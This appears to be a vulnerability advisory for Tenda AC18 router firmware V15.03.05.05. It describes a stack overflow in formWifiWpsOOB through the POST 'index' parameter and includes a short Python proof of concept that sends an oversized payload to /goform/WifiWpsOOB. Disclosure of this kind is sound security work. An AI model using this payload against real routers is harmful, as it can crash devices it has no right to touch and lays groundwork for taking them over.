 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formWifiWpsOOB` function. The `nptr` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `nptr` can trigger this security vulnerability.

![image-20240306172913194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172913194.png)

![image-20240306172847771](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172847771.png)

![image-20240306172902301](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172902301.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsOOB"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306172830908](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172830908.png)